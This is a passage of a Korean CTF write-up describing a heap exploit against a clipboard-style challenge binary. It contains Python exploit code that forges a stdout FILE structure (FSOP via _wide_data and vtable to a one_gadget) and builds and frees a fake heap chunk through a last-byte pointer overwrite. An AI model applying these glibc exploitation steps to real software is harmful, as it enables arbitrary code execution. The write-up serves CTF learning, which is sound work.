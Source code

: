 ``` python
    io_wfile_jumps = libc + 0x2170c0
    payload = bytearray(stdout_fp)
    payload[0:8] = p64(0)                       # stdout -> flags
    payload[0xa0:0xa8] = p64(wide_data)         # stdout -> _wide_data
    payload[0xc0:0xc8] = p64(1)                 # stdout -> mode
    payload[0xd8:0xe0] = p64(io_wfile_jumps)    # stdout -> vtable
    add_clipboard(s, -4, 0x100, payload, fin=1)
```
어... 신나게 설명했는데 사실 가장 큰 문제가 하나 있다.

OOB 취약점을 이용하여 `chunk_list[-4]`에 위치한 `stdout`을 overwrite하면 메모리는 다음 이미지와 같다.

![overwrite stdout](https://github.com/user-attachments/assets/516ba80e-e929-4134-8286-90478be22a81)

그런데 사실 `_IO_flush_all_lockp`는 `_IO_list_all`을 순회하며 file stream에 overflow가 발생했는지 확인하기 때문에, 공격자가 할당한 `wide_vtable`의 `one_gadget` 함수가 호출되기 위해서는 메모리가 다음 이미지와 같아져야 한다.

![overwrite stdout and unlink _IO_list_all](https://github.com/user-attachments/assets/3d1e80f6-522d-4118-bc39-b87ff0a4e7df)

따라서 libc 영역에 있는 `_IO_list_all` 포인터를 overwrite 해야한다...

`stdout`에 저장된 값을 직접 접근하는 다른 FSOP 시나리오를 찾았다면 이런 짓은 하지 않았어도 됐는데 아쉬울 따름이다...

### tcache unlink
아예 새로운 문제를 보는 기분으로 코드를 보다보면 `DelClipboard()`에서 다음 동작을 수행하는 것을 확인할 수 있다.
``` c
int DelClipboard()
{
  ...
      ptr = chunk_list_4040[index];
      if ( ptr )
      {
        free(ptr);
        chunk_list_4040[index] = 0LL;
        check_chunk_list_4090[index] = 0;
        size = chunk_size_list_40A0;
        chunk_size_list_40A0[index] = 0;
      }
  ...
}
```
`AddClipboard()`에서 `1`로 설정된 `check_chunk_list[index]`의 값을 `0`으로 돌려준다.

`check_chunk_list` 위에는 `malloc()`으로 할당받은 heap 영역의 주소들이 쓰여있을 것이고 `malloc()`, `free()`를 하는 순서가 같으면 offset도 동일할 것이므로 할당받은 주소를 leak하지 않더라도 예측할 수 있다.

따라서 `malloc`이 `0xXXXXXXXXXX10` 주소를 반환하게끔 heap을 정렬시켜두고, `0xXXXXXXXXXX00` 주소에 fake chunk header를 만들어준 다음, 주소의 마지막 바이트인 `0x10`을 `0x00`으로 만들어주면 fake chunk를 `free()`시킬 수 있다.
``` python
    # align last byte
    add_clipboard(s, -8, 0xc0, b"C" * 0x20)

    # make fake chunk header
    payload = b"D" * 0x10
    payload += p64(0)
    payload += p64(0x101)
    add_clipboard(s, 0, 0x20, payload)

    # allocate XXXXXXXXX410, XXXXXXXXX440, XXXXXXXXX470 chunks
    add_clipboard(s, 9, 0x20, b"E" * 0x30)
    add_clipboard(s, 1, 0x20, b"F" * 0x20)
    add_clipboard(s, 2, 0x20, b"G" * 0x20)

    # overwrite 410 -> 400 and free fake chunk (size 0x100)
    del_clipboard(s, -8)
    del_clipboard(s, 9)
```